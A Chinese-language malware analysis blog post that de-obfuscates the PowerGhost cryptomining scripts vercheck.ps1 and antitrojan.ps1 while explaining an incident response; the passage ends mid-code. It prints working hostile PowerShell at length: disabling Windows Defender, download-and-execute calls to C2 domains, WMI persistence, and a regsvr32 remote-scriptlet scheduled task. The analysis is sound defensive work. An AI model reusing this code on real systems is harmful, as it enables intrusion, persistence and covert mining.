


# Malware Analysis: PowerGhost

近期应急响应事件中遇到的病毒样本，处置不复杂，但搜罗了一圈发现网上没有特别详尽的病毒分析。

于是开了个新系列 Malware Analysis，我的第一篇病毒分析文章。

病毒分析和应急响应处置在笔记中同步了一份：

- [Security::Malwares::PowerGhost](../../sec/malwares/powerghost.md)
- [Security::Incidents::PowerGhost](../../sec/incidents/powerghost.md)

<!-- more -->

## 获取样本

我到场时距离感染有很长一段时间了，相关远控域名和 IP 更换过很多次，没法下载到原始样本。而 PowerGhost 采用大量的无文件技术，主机上没有可供分析的文件。并且因为多次人工处置和 EDR 查杀，病毒下载的攻击模块文件也没有找到。

好在 `auth.to0ls.com` 的微步情报中有许多历史样本分析报告，其中 `vercheck.ps1:4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5` 行为表现基本和 EDR 记录的一致，分析报告信息也比较多，于是以这个为参考进行样本分析。

- [ThreatBook 沙箱分析报告：vercheck.ps1](https://s.threatbook.com/report/file/4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)

我不是高贵的付费版用户，无法直接下载样本，但衍生文件中的 [PCAP](https://s.threatbook.com/apis/sample/download/4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5?type=pcap) 记录了病毒的通信，里面包含了病毒样本文件。

相关文件我提取出来放在了 [13m0n4de/powerghost-malware-samples](https://github.com/13m0n4de/powerghost-malware-samples)。

| file                   | sha256                                                           |
| ---------------------- | ---------------------------------------------------------------- |
| samples/antitrojan.ps1 | 9912469166d52ca562ca9c511b596e6b07208d17f1bb7692b319b66e23917534 |
| samples/ver.txt        | b6403da9b22abe355ad17208a336e658322c5d1d7ff646ca7b9229237ba4aef4 |
| samples/vercheck.ps1   | 7ee86cbe0feee32839960199822c3f866b12e42daf290268fe6d9d6e4408242f |
| samples/antivirus.php  | bf08b690bc8bb6382d7e863f45f59ce7aae325d0dd587101dab5de15e39a184b |

混淆还原后的文件在 [deobfuscated](https://github.com/13m0n4de/powerghost-malware-samples/tree/main/deobfuscated)。

## vercheck.ps1

原始样本：[vercheck.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/vercheck.ps1)。

```powershell
 & ( $enV:cOMsPEC[4,15,25]-JoiN'') (('28@...dya' -SpLIt 'N' -SPlIt '@'-SPlIt'm'-sPLiT '-'-SpLit'%' -SpliT'Q'-sPLiT 'y' -split'p' | FOrEACH{ ( [COnvErT]::TOinT16(([striNG]$_ ) , 16) -aS[ChAR]) } )-jOiN '' )
```

脚本开始部分 `& ($enV:cOMsPEC[4,15,25]-JoiN'')` 从环境变量 `COMSPEC` 中提取索引为 4、15、25 的字符，将其拼接之后执行。

`COMSPEC` 环境变量通常指向 `C:\Windows\System32\cmd.exe`，那么：

- 索引 4：`i`
- 索引 15：`e`
- 索引 25：`x`

连接在一起得到 `iex`，这是 PowerShell 中 `Invoke-Expression` 命令的别名。

后面是一段非常长的混淆字符串，经过以下处理：

- `-SpLIt 'N' -SPlIt '@'-SPlIt'm'-sPLiT '-'-SpLit'%' -SpliT'Q'-sPLiT 'y' -split'p'`：将字符串分割成多个部分
- `FOrEACH{ ( [COnvErT]::TOinT16(([striNG]$_ ) , 16) -aS[ChAR]) }`：将每个部分作为十六进制值转换为对应字符
- `-jOiN ''`：将所有字符连接起来形成一个完整的命令

在 CyberChef 中用 `N|@|m|-|%|Q|y|p` 替换所有字符为空格，随后使用 `FromHex` 将所有十六进制值转换为字符：



就得到了新的 PowerShell 代码，美化处理后如下（Base64 字符串已省略），`vercheck.ps1` 最外层的逻辑就是用 `iex` 执行这段代码。

```powershell
(nEW-oBjECt sYSTEm.iO.StReaMrEAdER 
    (
        (nEW-oBjECt syStEm.io.coMPRESSIoN.defLaTeSTREAm(
            [SYSTem.IO.memORysTReam][COnvErt]::FroMBASe64StrIng('...'),
            [iO.cOMPrESSION.COmPrEsSiONmodE]::DecOmPrESS)
        ),
        [SyStEM.TEXt.eNCoDIng]::AscII
    )
).rEAdTOenD() | &((GEt-VaRiaBLe '*mdR*').NaMe[3,11,2]-JOiN'')
```

新代码是一个多层解码和执行机制，分为几个部分，按照从内到外解码的顺序是：

- `[COnvErt]::FroMBASe64StrIng(...)`：将 Base64 字符串转化为二进制数据
- `nEW-oBjECt  syStEm.io.coMPRESSIoN.defLaTeSTREAm(..., [iO.cOMPrESSION.COmPrEsSiONmodE]::DecOmPrESS)`：解压缩 Deflate 流
- `nEW-oBjECt  sYSTEm.iO.StReaMrEAdER(...).rEAdTOenD()`：读取解压缩后的内容

然后将结果通过管道传递给 `&((GEt-VaRiaBLe '*mdR*').NaMe[3,11,2]-JOiN'')`，这句代码的逻辑与之前从 `COMSPEC` 获取字符拼接命令一致，只是它从匹配 `*mdR*` 的变量中获取。

从文章 [Securonix Threat Research Knowledge Sharing Series: Hiding the PowerShell Execution Flow](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/) 中得知，`MaximumDriveCount` 变量匹配 `*mdR*`，且索引 3、11、2 可以组成 `iex`。

将 Base64 字符串解码再 Inflate，得到 `vercheck.ps1` 真正想要执行的代码：



反混淆后的样本：[vercheck.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/vercheck.ps1)。

1-6 行利用指针大小和环境变量 `PROCESSOR_ARCHITEW6432` 判断系统是 64 位还是 32 位：

```powershell linenums="1"
function Test-Wow64() {
    return (Test-Win32) -and (test-path env:\PROCESSOR_ARCHITEW6432)
}
function Test-Win32() {
    return [IntPtr]::size -eq 4
}
```

7-11 行禁用 Windows Defender 的多项安全功能：

- 实时监控
- 反间谍软件保护
- 行为监控
- 文件访问保护
- 实时扫描

```powershell linenums="7"
Set-MpPreference -DisableRealtimeMonitoring $true | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableBehaviorMonitoring /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableOnAccessProtection /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableScanOnRealtimeEnable /t REG_DWORD /d 1 /f | Out-Null
```

13-18 行开启多个网络服务和远程管理服务：

- RPC 服务
- RPC 定位器服务
- 远程注册表服务
- RPC 端点映射器
- WMI 服务
- 远程管理服务

```powershell linenums="13"
net start RpcSs | Out-Null
net start RpcLocator | Out-Null
net start RemoteRegistry | Out-Null
net start RpcEptMapper | Out-Null
net start Winmgmt | Out-Null
net start WinRM | Out-Null
```

19-30 行检查系统中是否已经存在 WMI 持久化，以此判断恶意软件是否安装过：

```powershell linenums="19"
$a=([string](Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Systems Manage%'" | SELECT __Path));
$b=([string](geT-WMIOBJeCt -Namespace root\Subscription -Class __EventFilter -filter "Name= 'Systems Manage Filter'" | SELECT Name));
$c=([string](geT-WMIOBJeCt -Namespace root\Subscription -Class CommandLineEventConsumer -filter "Name= 'Systems Manage Consumer'" | SELECT Name));
if(($a -eq $null) -or ($b -eq $null) -or ($c -eq $null)){
    $IsInstalled = $False
}else{
  if(($a -eq "") -or ($b -eq "") -or ($c -eq "")){
      $IsInstalled = $False
  }else{
      $IsInstalled = $True
  }
}
```

31-106 行通过 ping 检查可以连接的 C2 服务器：

- 域名包括 `auth.to0ls.com` 和 `mail.to0ls.com`，使用字符串拼接混淆
- 如果 ping 失败，尝试使用 nslookup 和 DNS 服务器 `8.8.8.8` 解析域名
- 对可用的服务器进行多次 ping 测试，计算平均响应时间，最终选择一个响应最快的服务器

```powershell linenums="31"
$pin = new-object system.net.networkinformation.ping
$se=@((('au'+'th.'+'to0l'+'s.c'+'om')),(('mail.to'+'0l'+'s.co'+'m')))
$avgs = @()
$nic = ('au'+'th.'+'to0l'+'s.c'+'om')
$tmp = 0
$dtflag = $True
$tmp = ($pin.send($se[0])).RoundtripTime
if ($tmp -ne 0){
    $dtflag = $True
}else{
    $tmp = ($pin.send($se[1])).RoundtripTime
    if ($tmp -ne 0){
        $dtflag = $False
        $nic = $se[1]
    }else{
        for($i=0;$i -le 1;$i++){
            [string]$nslookup = &nslookup.exe $se[$i] 8.8.8.8
            $nslookup = $nslookup.replace("8.8.8.8","xxxxxxxx")
            $pattern="(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)"
            if($nslookup -match $pattern){
                $se[$i] = $matches[0]
            }else{
                $se[$i] = "8.8.8.8"
            }
        }
        if(!($se[0].contains("8.8.8.8")) -and !($se[1].contains("8.8.8.8"))){
            if($se[0].contains($se[1])){
                $nic = $se[0]
                $dtflag = $False
            }else{
                $dtflag = $True
            }
        }elseif($se[0].contains("8.8.8.8")){
            $nic = $se[1]
            $dtflag = $False
        }else{
            $nic = $se[0]
            $dtflag = $False
        }
    }
}
if($dtflag){
    for($i=0;$i -le 1;$i++){
        $sum = 0
        $count = 0
        for($j=1;$j -le 4;$j++){
            $tmp = ($pin.send($se[$i])).RoundtripTime
            if ($tmp -ne 0){
                $count += 1
            }
            $sum += $tmp
        }
        if ($count -ne 0){
            $avgs += $sum/$count
        }else{
            $avgs += 0
        }
        if ($i -eq 0){
            if (($avgs[0] -le 300) -and ($avgs[0] -ne 0)){
                $nic = $se[0]
                break
            }
        }
        if ($i -eq 1){
            if ($avgs[1] -ne 0){
                if (($avgs[0] -le $avgs[1]) -and ($avgs[0] -ne 0)){
                    $nic = $se[0]
                    break
                }else{
                    $nic = $se[1]
                    break
                }
            }
        }
    }
}
```

107-126 行，更新恶意软件自身：

- 请求 C2 服务器上的 `/w/ver.txt` 获取远程版本号
- 从 WMI 类的 `Window_Core_Flush_Cach` 属性中获取本地版本号
- 如果版本相同，则退出脚本
- 如果版本不同，从 C2 服务器上获取 `/vercheck.ps1` 文件并使用 PowerShell 执行

```powershell linenums="107"
$nic=$nic+(':'+'443')
if($IsInstalled)
{
    $ver=(New-Object Net.WebClient).DownloadString("http://$nic/w/ver.txt").Trim()
    if($ver -ne $null){
        $ver_tmp=([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['ver'].Value
        if($ver -eq $ver_tmp){
            exit
        }
    }
}
if (Test-Wow64)
{
    $text = "IEX ((new-object net.webclient).downloadstring('http://$nic/vercheck.ps1'))"
    $base64 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))
    $id = (start-process -FilePath "$env:systemroot\Sysnative\WindowsPowerShell\v1.0\powershell.exe" -ArgumentList  "-nop -noni -w hidden -enc $base64" -WindowStyle Hidden -PassThru).id
    if (($id -ne '') -and ($id -ne $null)){
        exit
    }
}
```

127-131 行根据系统架构不同，下载执行不同的恶意文件：

- 32 位：`/w/antitrojan.ps1`
- 64 位：`/w/antivirus.ps1`

```powershell linenums="127"
if ((geT-WmIObjECt Win32_OperatingSystem).osarchitecture.contains('32')){
    iex(new-object Net.WebClient).DownloadString("http://$nic/w/antitrojan.ps1")
}else{
    iex(new-object Net.WebClient).DownloadString("http://$nic/w/antivirus.ps1")
}
```

## antitrojan.ps1

原始样本：[antitrojan.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/antitrojan.ps1)

```powershell linenums="1"
$miiiiii="TVqQAAMAAAAEAAAA//8AALgAAAA..."
$mmmmmmm="TVqQAAMAAAAEAAAA//8AALgAAAA..."
$fffffff="KE5ldy1vYkpFQ3QgaW8uc1RSRUF..."
$ssssssss="McBAD4RTBAAAYOgAAAAAW+gjAA..."
 if($args.count -gt 0){
    $defun=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($fffffff))
    I`EX $defun
    Invoke-Command -ScriptBlock $RemoteScriptBlock -ArgumentList @($mmmmmmm, $mmmmmmm, 'Void', 0, '', '')
    return
}
 iEx ([STrIng]::joIN('', ('28s4eH45r77...'-sPLit 'I'-SPLiT '@' -SPLIt 'r'-sPLiT';'-SpliT 'j' -sPlIT 'W' -SpLiT's' -sPLiT 'H' | ForEACh-OBJEcT { ( [CHaR] ( [CoNveRt]::TOInT16(($_.TOSTRINg()),16))) })) )
```

- `$miiiiii` 解码之后是 PE 文件，[VirusTotal 报告为 Mimikatz](https://www.virustotal.com/gui/file/be3414602121b6d23fc06edb6bd01ad60b584485266120c242877bbd4f7c8059)。
- `$mmmmmmm` 解码之后是 PE 文件，[VirusTotal 报告为 XMRig](https://www.virustotal.com/gui/file/50b4458f5c8375af54f1dbef8e1fd5dbfc3c56ed91ae9f4dff9b89a65f3e3986)。
- `$fffffff` 解码之后是 PowerShell 文件，含有多种利用函数
- `$ssssssss` 解码之后是 ShellCode 文件，[VirusTotal 报告为 Metasploit](https://www.virustotal.com/gui/file/50b4458f5c8375af54f1dbef8e1fd5dbfc3c56ed91ae9f4dff9b89a65f3e3986)
- 如果执行时没有任何命令行参数，则运行 `$fffffff` 漏洞利用函数和 `$mmmmmmm` 挖矿软件，否则运行 `antitrojan.ps1` 本体（第 11 行）

本体的混淆方式与[vercheck.ps1 的混淆方式](#vercheckps1)一致，反混淆过程省略。

反混淆后的样本：[antitrojan.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan.ps1)。

1-76 行与 `vercheck.ps1` 的 31-106 行一模一样，通过 ping 检查可以连接的 C2 服务器。

77-82 行，如果当前系统是 64 位的，选择下载执行 `/w/antivirus.ps1`。

同理，我猜测 `antivirus.ps1` 中也会判断系统是否是 32 位，并选择下载执行 `/w/antitrojan.ps1`。

这种设计可能是为了确保恶意脚本与目标系统架构相匹配。

```powershell linenums="77"
$nic=$nic+(':'+'443')
if ((geT`-WmI`ObjECt Win32_OperatingSystem).osarchitecture.contains('64')){
    i`EX(NE`W`-oBJE`CT Net.WebClient).DownloadString("http://$nic/w/antivirus.ps1")
    return
}
```

82-84 行将原始样本最外层的变量赋值给新变量：

- `$mimi`: `$miiiiii`, Mimikatz
- `$mon`: `$mmmmmmm`, XMRig
- `$funs`: `$fffffff`, 漏洞利用函数
- `$sc`: `$ssssssss`, Metasploit ShellCode

```powershell linenums="82"
$mimi = $miiiiii
$mon = $mmmmmmm
$funs = $fffffff
$sc = $ssssssss
```

86-112 行准备 WMI 事件订阅所需的类和属性：

- `$StaticClass`: 名为 `Window_Core_Flush_Cach` 的 WMI 管理类，属性如下：
    - `mimi`, `mon`, `funs`, `sc`: 前面定义的恶意组件
    - `ver`: 版本号，`"1.3"`
    - `flag`: 上次执行时间，`0`
- `$runingFlag`: 记录 WMI 管理类创建操作是否成功
- `$filterName`: WMI 事件过滤器名称，`Systems Manage Filter`
- `$consumerName`: WMI 事件消费者名称，`Systems Manage Consumer`

```powershell linenums="86"
$runingFlag = $False
try{
    $StaticClass = N`E`w-obJEcT Management.ManagementClass((('ro'+'ot{0}de'+'f'+'a'+'ult')-F  [cHAR]92), $null,$null)
    $StaticClass.Name = ('Wind'+'ow_C'+'or'+'e_'+'Flush'+'_C'+'ach')
    $StaticClass.Put() | out-N`U`Ll
    $StaticClass.Properties.Add(('m'+'imi') , $mimi)
    $StaticClass.Put() | O`UT`-NUlL
    $StaticClass.Properties.Add(('m'+'on') , $mon)
    $StaticClass.Put() | ou`T-n`ULL
    $StaticClass.Properties.Add(('fu'+'ns') , $funs)
    $StaticClass.Put() | O`UT`-NULl
    $StaticClass.Properties.Add('sc' , $sc)
    $StaticClass.Put() | o`Ut`-NuLL
    $StaticClass.Properties.Add(('ips'+'u') ," ")
    $StaticClass.Put() | OUt-n`ULl
    $StaticClass.Properties.Add(('i'+'17') ," ")
    $StaticClass.Put() | OUt-N`UlL
    $StaticClass.Properties.Add(('v'+'er'), ('1.'+'3'))
    $StaticClass.Put() | o`Ut-N`Ull
    $StaticClass.Properties.Add(('fl'+'ag'), ('0'))
    $StaticClass.Put() | o`Ut-N`Ull
    $runingFlag = $True
} catch {
    $runingFlag = $False
}
$filterName = ('Sy'+'stem'+'s Man'+'age '+'Filt'+'er')
$consumerName = ('System'+'s Man'+'age C'+'on'+'sumer')
```

113-263 行定义了 `$Script` 变量，用于保存持久化 PowerShell 代码，其中的代码逻辑与 `antitrojan.ps1` 大致相同，[稍后单独分析](#script)。

264-265 行将 `$Script` 转换为 Base64 字符串，保存在 `$EncodedScript` 变量中：

```powershell linenums="264"
$Scriptbytes = [System.Text.Encoding]::Unicode.GetBytes($Script)
$EncodedScript=[System.Convert]::ToBase64String($Scriptbytes)
```

267 行定义了 WQL 查询语句，使用了字符替换来混淆，原始的查询语句如下：

```SQL
SELECT * FROM __InstanceModificationEvent WITHIN 5601 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'
```

- 监视系统性能数据的变化 (`Win32_PerfFormattedData_PerfOS_System`)，每当这些数据发生变化时触发事件
- `WITHIN 5601` 表示查询的轮询间隔，5601 秒

```powershell linenums="267"
$Query = (('SELECT *'+' FR'+'OM __'+'InstanceM'+'odi'+'fi'+'ca'+'tion'+'Eve'+'nt WITHIN 560'+'1'+' W'+'HER'+'E Targ'+'e'+'t'+'I'+'nsta'+'nce I'+'SA BiAWin3'+'2'+'_'+'Pe'+'rf'+'Form'+'at'+'tedDa'+'ta'+'_'+'PerfOS'+'_Sy'+'stemBiA').rePlACE(([Char]66+[Char]105+[Char]65),[StRIng][Char]39))
```

269-271 行删除其他竞争恶意软件的 WMI 持久化机制：

```powershell linenums="269"
geT-`W`MIO`BJeCt -Namespace root\Subscription -Class __FilterToConsumerBinding | ReMove-`W`miOb`JEcT
GET`-`Wm`IobjEct -Namespace root\Subscription -Class __EventFilter |r`emoVE-WMI`obJ`e`ct
gEt-`wM`io`BJ`eCT -Namespace root\Subscription -Class CommandLineEventConsumer | removE-`W`M`IOBJect
```

273-278 行设置了 IPsec 规则以阻止任何地址访问本机 445 端口的流量，防止其他恶意软件通过该端口入侵：

```powershell linenums="273"
NE`TSh ipsec static add policy name=netbc
Ne`TSH ipsec static add filterlist name=block
n`eTsh ipsec static add filteraction name=block action=block
nE`TSh ipsec static add filter filterlist=block any srcmask=32 srcport=0 dstaddr=me dstport=445 protocol=tcp description=445
NeT`sH ipsec static add rule name=block policy=netbc filterlist=block filteraction=block
net`Sh ipsec static set policy name=netbc assign=y
```

280-294 行部署 WMI 持久化机制：

- 创建 WMI 事件过滤器：
    - 命名空间：`root\subscription`
    - 类：`__EventFilter`
    - 事件名称空间：`root\cimv2`
    - 查询语句：之前定义的 `$Query` 变量（监控系统性能数据变化）
- 创建 WMI 事件消费者：
    - 命名空间：`root\subscription`
    - 类：`CommandLineEventConsumer`
    - 命令模板：`powershell.exe -NoP -NonI -W Hidden -E $EncodedScript`（无配置文件、无交互、隐藏窗口、Base64 编码命令）
- 创建 WMI 事件过滤器和消费者之间的绑定

由于系统性能数据 `Win32_PerfFormattedData_PerfOS_System` 几乎一直在变化，所以每当 5601 秒一定会触发执行 `$Script` 代码。

```powershell linenums="280"
$FilterParams = @{
    Namespace = (('r'+'ootu'+'7gsubscription')  -CRePLaCE  ([cHAr]117+[cHAr]55+[cHAr]103),[cHAr]92)
    Class = ('_'+'_Ev'+'entFil'+'ter')$StaticClass
    Arguments =@{Name=$filterName;EventNameSpace=(('ro'+'ot'+'DaJcimv2')  -CrePLACE  ([chAr]68+[chAr]97+[chAr]74),[chAr]92);QueryLanguage=('W'+'QL');Query=$Query}
    ErrorAction = ('Si'+'le'+'ntly'+'C'+'ontinue')
}
$WMIEventFilter = s`Et-`w`miINStan`Ce @FilterParams

$ConsumerParams = @{
    Namespace = (('roo'+'t{0'+'}subscri'+'pt'+'ion')  -f  [chAr]92)
    Class = ('Comma'+'ndL'+'ine'+'E'+'ventCon'+'sumer')
    Arguments =@{ Name = $consumerName; CommandLineTemplate=('po'+'we'+'rsh'+'ell.ex'+'e -NoP '+'-'+'N'+'o'+'nI'+' -W Hid'+'den -'+'E ')+"$EncodedScript"}
    ErrorAction = ('Sil'+'ent'+'lyCont'+'inue')
}
$WMIEventConsumer = s`Et`-wM`I`inStAnce @ConsumerParams

s`ET-WmiInS`TaNCE -Class __FilterToConsumerBinding -Namespace (('ro'+'otL'+'BEsu'+'bs'+'cripti'+'on').rePLacE('LBE',[StRInG][chaR]92)) -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer} | ouT-N`U`Ll
```

298-299 行创建两个计划任务：

- `SystemFlushDns`: 系统自动时运行
- `Microsoft Assist Job`: 每 20 分钟运行一次

两个任务都执行同样的命令：

```
regsvr32 /u /s /i:http://$nic/antivirus.php scrobj.dll
```

这是一种无文件攻击技术，称为 Squiblydoo，属于 LOLBin 攻击的一种，利用合法的 Windows 组件 `regsvr32` 从远程 URL 加载和执行代码。

- `regsvr32`: Windows 内置的命令行工具，可以用来注册 COM 组件
- `/u`: 注销组件，为了执行后不留下痕迹
- `/s`: 静默模式，不显示消息框
- `/i`: 指定远程 [Scriptlet](https://en.wikipedia.org/wiki/Scriptlet) 脚本位置，这里是 `http://$nic/antivirus.php`
- `scrobj.dll`: Windows 内置的脚本对象处理组件，可以用来解析 Scriptlet 的 XML 结构

```powershell linenums="298"
SCh`T`ASks /create /tn ('Syste'+'mFlu'+'s'+'h'+'Dns') /tr ('regsvr32 /'+'u'+' /s /i'+':h'+'ttp'+':'+'//'+$nic+'/'+'antivirus'+'.'+'ph'+'p sc'+'r'+'obj.'+'dll') /sc onstart /ru ('Syst'+'em') /F
Sch`Ta`sKS /create /tn ('M'+'icros'+'oft Ass'+'ist J'+'ob') /tr ('reg'+'svr32 /'+'u /s /i:http'+'://'+$nic+'/a'+'n'+'tivirus'+'.p'+'hp '+'scrobj.d'+'ll') /sc minute /mo 20 /ru ('Sy'+'s'+'tem') /F
```

300-301 行删除计划任务 `WindowsLogTasks` 和 `System Log Security Check`，这两个计划任务在[网上某个病毒处置办法](https://wukungt.github.io/2019/05/16/Powershell%E6%97%A0%E6%96%87%E4%BB%B6%E6%8C%96%E7%9F%BF%E6%9F%A5%E6%9D%80%E6%96%B9%E6%B3%95/)中找到，文章中 IoC 情报显示属于 [WannaMine](https://malpedia.caad.fkie.fraunhofer.de/details/ps1.wannamine) 家族，与 PowerGhost 是同时期的病毒，这两个病毒代码内容极其相似。

我理解为删除了竞争恶意软件的计划任务。

```powershell linenums="300"
S`chTas`kS /delete /tn "WindowsLogTasks" /f
S`chTas`kS /delete /tn "System Log Security Check" /f
```

302-305 行禁用系统省电功能，确保持续运行：

- 禁用待机模式
- 禁用休眠
- 设置电源配置防止系统休眠

```powershell linenums="302"
P`oW`ErcFg /CHANGE -standby-timeout-ac 0
POW`ErC`FG /CHANGE -hibernate-timeout-ac 0
POwe`Rc`Fg -SetAcValueIndex 381b4222-f694-41f0-9685-ff5bb260df2e 4f971e89-eebd-4455-a8de-9e59040e7347 5ca83367-6e45-459f-a27b-476b1d01c936 000
```

306-325 行终止所有连接到 80 或 14444 端口的进程：

- 获取所有 PowerShell 进程的 ID，按照 CPU 使用率降序排序
- 收集当前所有 TCP 网络连接信息
- 杀死所有连接状态为 `ESTABLISHED`（已建立）且端口为 80 或 14444 的 PowerShell 进程

WannaMine 家族的病毒的矿池地址也使用 14444 端口，加上优先杀死 CPU 使用率更高的进程，所以判断为杀死竞争恶意软件的挖矿进程。

```powershell linenums="306"
[array]$psids= Get-`prOCe`Ss -name powershell |s`Ort cpu -Descending| F`o`ReA`CH-oBJEcT {$_.id}
$tcpconn = ne`TST`AT -anop tcp
if ($psids -ne $null )$StaticClass
{
    foreach ($t in $tcpconn)
    {
        $line =$t.split(' ')| ?{$_}
        if ($line -eq $null)
        {continue}
        if (($psids -contains $line[-1]) -and $t.contains(('ESTABL'+'ISHE'+'D')) -and ($t.contains((':8'+'0')) -or $t.contains((':14'+'444'))))
        {
            $temp = $line[-1]
            $ParentProcessId = (get-wmiobject -Class Win32_Process -Filter "ProcessId=$temp").ParentProcessId
            if ($psids -contains $ParentProcessId){
                g`E`T-PROCESS -id $ParentProcessId | s`TO`P-PRo`cesS -force
            }
            g`E`T-PROCESS -id $temp | s`TO`P-PRo`cesS -force
        }
    }
}
```

327-348 行基于之前 WMI 管理类创建是否成功来执行不同的逻辑：

- 如果 `$runingFlag` 为真（WMI 类创建成功）直接执行之前定义的持久化脚本 `$script`
- 如果 WMI 类创建失败，则执行备用方案：
    - 解码并加载漏洞利用函数 `$funs`，也就是 `$fffffff`
    - 执行 `RunDDOS` 函数，启动 DDoS 攻击，关于 `cohernece.exe` 的分析见[cohernece.txt](#cohernecetxt)，第二个参数是 `cohernece.exe` 的哈希值
    - 根据系统架构差异下载执行不同的恶意脚本（使用 `WScript.Shell` 对象隐藏执行窗口）：
        - 64 位系统：`/w/antivirus.ps1`
        - 32 位系统：`/w/antitrojan.ps1`
    - 调用 `Invoke-Brexit` 函数执行 ShellCode

```powershell linenums="327"
if ($runingFlag){
    I`eX $script
    exit
}else{
    $defun=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($funs))
    I`EX $defun
    RunDDOS "cohernece.exe" "4F-E2-DE-6F-BB-27-8E-56-C2-3E-90-43-2F-21-F6-C8"
    [byte[]]$sc=[System.Convert]::FromBase64String($sc)
    $ipsu = " "
    $i17 = " "
    if ((GeT-`W`M`IObjECt Win32_OperatingSystem).osarchitecture.contains('64'))
    {
        $cmdmon = "powershell -NoP -NonI -W Hidden `"`$scriptPath = ((new-object net.webclient).DownloadString('http://$nic/w/antivirus.ps1'));Invoke-Command -ScriptBlock ([scriptblock]::Create(`$scriptPath)) -ArgumentList 'a'`""
    }else{
